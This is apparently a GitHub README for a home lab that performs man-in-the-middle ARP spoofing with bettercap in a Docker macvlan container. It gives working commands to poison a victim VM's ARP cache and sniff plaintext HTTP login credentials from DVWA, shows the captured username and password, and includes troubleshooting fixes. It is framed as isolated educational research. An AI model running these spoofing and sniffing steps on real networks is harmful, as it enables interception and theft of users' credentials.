

# 🔐 MITM Lab — Network Attack & Detection Research

> **Disclaimer:** This lab is built strictly for **educational purposes** in a fully isolated virtual environment. All attacks are performed on intentionally vulnerable systems with no connection to production networks. Do not use these techniques on systems you do not own or have explicit written permission to test.

---

## 📌 Overview

A hands-on Man-in-the-Middle (MITM) attack lab built to study network interception, ARP spoofing, and credential sniffing in a controlled environment. The lab documents the full journey from failed attempts to successful interception, including root cause analysis of every obstacle encountered.

**Core research question:** Can a containerized attacker (Docker) successfully intercept HTTP credentials between a victim VM and a vulnerable web application on an isolated Host-Only network?

**Result:** ✅ Yes — with `macvlan` network driver, bettercap container positioned correctly within the network topology.

---

## 🏗️ Architecture

```
┌─────────────────────────────────────────────────────┐
│                  Kali Linux (Host)                  │
│                  192.168.56.1                       │
│                                                     │
│  ┌─────────────────────────────────────────────┐    │
│  │         Docker macvlan — mitm-net           │    │
│  │         192.168.56.0/24                     │    │
│  │                                             │    │
│  │  [bettercap]    [DVWA]   [WebGoat] [Juice]  │    │
│  │  .56.10         .56.20   .56.21    .56.22   │    │
│  └─────────────────────────────────────────────┘    │
│                    vboxnet0                         │
└─────────────────────┬───────────────────────────────┘
                      │ Host-Only Network
          ┌───────────┴───────────┐
          │                       │
   [Ubuntu VM]           [Metasploitable VM]
   192.168.56.101         192.168.56.102
   victim                 additional target
```

### Network Design — Why macvlan?

| Driver | MAC Address | Position | ARP Spoof |
|--------|-------------|----------|-----------|
| bridge (default) | shared via NAT | outside network | ✗ fails |
| host network | same as host vboxnet0 | same-interface problem | ✗ fails |
| **macvlan** | **unique per container** | **inside network** | **✓ works** |

The root cause of early failures was that `vboxnet0` on the Kali host has MAC `0a:00:27:00:00:00`. When bettercap ran on the host, ARP poison packets used this MAC — causing victims to route traffic to the host which then dropped it (same-interface routing problem). macvlan solves this by giving the bettercap container its own unique MAC and IP within the subnet.

---

## 🧰 Components

| Component | Role | IP |
|-----------|------|----|
| Kali Linux (host) | attacker host, Docker engine | 192.168.56.1 |
| bettercap (Docker) | ARP spoofer + traffic sniffer | 192.168.56.10 |
| DVWA (Docker) | HTTP target — login form | 192.168.56.20 |
| WebGoat (Docker) | HTTP target — web vulnerabilities | 192.168.56.21 |
| Juice Shop (Docker) | HTTP target — OWASP top 10 | 192.168.56.22 |
| Ubuntu VM | victim — browses to targets | 192.168.56.101 |
| Metasploitable VM | additional vulnerable target | 192.168.56.102 |

---

## 🚀 Quick Start

### Prerequisites

- VirtualBox installed on Kali Linux host
- Ubuntu VM configured with: Adapter 1 = NAT, Adapter 2 = Host-Only (vboxnet0)
- Metasploitable VM configured with: Adapter 1 = Host-Only (vboxnet0)
- Docker installed on Kali host
- vboxnet0 configured at 192.168.56.1/24 in VirtualBox settings

### 1 — Enable IP forwarding on Kali host

```bash
sudo sysctl -w net.ipv4.ip_forward=1
sudo iptables -P FORWARD ACCEPT
```

### 2 — Create macvlan network

```bash
docker network create \
  --driver macvlan \
  --subnet=192.168.56.0/24 \
  --gateway=192.168.56.1 \
  --opt parent=vboxnet0 \
  mitm-net
```

### 3 — Start target containers

```bash
docker compose -f docker/docker-compose.yml up -d
```

### 4 — Initialize DVWA database

From Ubuntu VM browser, navigate to:
```
http://192.168.56.20/setup.php
```
Click **"Create / Reset Database"**, then login with `admin` / `password`.

### 5 — Launch bettercap attacker

```bash
docker run -it \
  --name attacker \
  --network mitm-net \
  --ip 192.168.56.10 \
  --cap-add NET_ADMIN \
  --cap-add NET_RAW \
  bettercap/bettercap \
  -iface eth0
```

### 6 — Run the attack

Inside bettercap interactive shell:

```
set arp.spoof.fullduplex true
set arp.spoof.internal true
set arp.spoof.targets 192.168.56.101,192.168.56.20
arp.spoof on
set net.sniff.verbose true
set net.sniff.filter port 80
net.sniff on
```

### 7 — Trigger traffic from victim

From Ubuntu VM, open browser and login to:
```
http://192.168.56.20/dvwa/login.php
```

### Expected output

```
[net.sniff.http.request] POST /login.php <- 192.168.56.101
  username=admin&password=password&Login=Login&user_token=xxxxx
```

---
📸 Proof of Concept (PoC) Visuals

Below is the visual documentation of the Man-in-the-Middle attack execution within the lab:

1. Network Infrastructure Verification (Macvlan)

Ensuring the attacker and target containers are running in an isolated subnet using the macvlan driver.

2. Successful ARP Poisoning

The victim's ARP table before and after the attack. The target's MAC Address (.20) is successfully manipulated to point to the attacker's machine (.10).

3. Victim Activity Simulation

The victim authenticates on the DVWA web interface, unaware that their network traffic is being intercepted.

4. Credential Interception (Plaintext Capture)

Bettercap successfully intercepts the HTTP POST request and extracts the username and password in plaintext.

---
## 🔍 Root Cause Analysis — Obstacles Encountered

Full RCA documentation is in [`rca-visualization.md`](rca-visualization.md).

| # | Technical Obstacle | Root Cause Concept | Resolution |
|---|--------------------|--------------------|------------|
| 1 | **Host-to-Container Interception Failure**<br>(Same-Interface Routing Problem) | Running the spoofer directly on the Kali host caused packets to be dropped because VirtualBox (`vboxnet0`) and the Linux kernel block traffic originating from and destined to the same interface. | **Architectural Fix:** Deployed Bettercap inside a **Docker Macvlan** container, granting it a dedicated, isolated MAC address on the network layer. |
| 2 | **Spoofer Cannot Find Targets**<br>(Silent Network Environment) | Linux containers (like the DVWA target) do not broadcast background traffic. The Bettercap spoofer failed to build an ARP table because the target's MAC address was unknown. | **Active Reconnaissance:** Temporarily activated `net.probe on` to send active discovery packets across the subnet, forcing the hidden container to respond and reveal its MAC address. |
| 3 | **Missing HTTP POST Data**<br>(Session & Caching Mechanisms) | Initial successful MITM interception only captured `HTTP 302` redirects and `200 OK` responses. The victim's browser was using an active `PHPSESSID` cookie instead of sending a new POST login request. | **Session Invalidation & Deep Sniffing:** Cleared browser cookies/used Incognito mode to force a fresh authentication request, and configured Bettercap with `net.sniff.verbose` and custom regex (`.*password=.*`) to capture the raw payload. |

---

## 📁 Repository Structure

```
mitm-lab/
├── README.md                  # this file
├── docker/
│   ├── docker-compose.yml     # all target containers
│   └── bettercap.caplet       # automated attack script
├── docs/
│   ├── rca.md                 # root cause analysis log
│   ├── topology.md            # network diagram details
│   └── planning.md            # future roadmap
├── scripts/
│   ├── setup.sh               # one-command lab setup
│   └── teardown.sh            # cleanup script
└── captures/
    └── .gitkeep               # sample captures go here (gitignored)
```

---

## ⚠️ Legal & Ethical Notice

This project is for **cybersecurity education only**. Every target in this lab is intentionally vulnerable software running in an isolated network with no internet access. The techniques demonstrated here:

- Are illegal if used against systems without explicit permission
- Are documented purely to understand how attacks work so defenders can detect and prevent them
- Should never be replicated outside a controlled lab environment

---

## 📚 References

- [bettercap documentation](https://www.bettercap.org/modules/ethernet/arp.spoof/)
- [DVWA GitHub](https://github.com/digininja/DVWA)
- [OWASP WebGoat](https://owasp.org/www-project-webgoat/)
- [Docker macvlan networking](https://docs.docker.com/network/drivers/macvlan/)
- [VirtualBox Host-Only networking](https://www.virtualbox.org/manual/ch06.html)
